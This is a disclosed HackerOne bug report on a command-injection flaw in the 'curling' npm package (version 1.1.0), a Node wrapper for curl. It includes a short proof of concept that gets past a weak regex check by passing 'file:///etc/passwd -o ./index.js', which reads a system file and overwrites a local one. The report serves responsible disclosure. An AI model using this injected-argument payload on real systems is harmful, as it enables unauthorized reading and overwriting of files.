 # [curling] Remote Code Execution

## Report Details
- **Report ID**: 973386
- **URL**: https://hackerone.com/reports/973386
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-09-02T18:05:45.807Z
- **Disclosed**: 2021-01-14T08:40:27.267Z

## Reporter
- **Username**: solov9ev
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report `RCE` in `curling`
I can bypass the security check for special characters, read / overwrite file

# Module

**module name:** curling
**version:** 1.1.0
**npm page:** `https://www.npmjs.com/package/curling`

## Module Description

A node wrapper for curl with a very simple api.

## Module Stats

[156] weekly downloads

# Vulnerability

## Vulnerability Description

The regular expression does not perform proper validation and, when combined with curl, leads to disastrous consequences:
```javascript
/[`$&{}[;|]/g.test(command)
```

## Steps To Reproduce:

- Run `npm i curling`

- Create and run the following POC index.js:

```javascript
const curling = require('curling');

curling.run('file:///etc/passwd -o ./index.js', function(d, payload){console.log(payload)});
```

- The exploit worked and overwritten the file - `index.js`

{F973903}

## Patch

Regular expression needs improvement

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

Command Injection on `curling` module via insecure command

## Attachments
- curling_rce.mp4
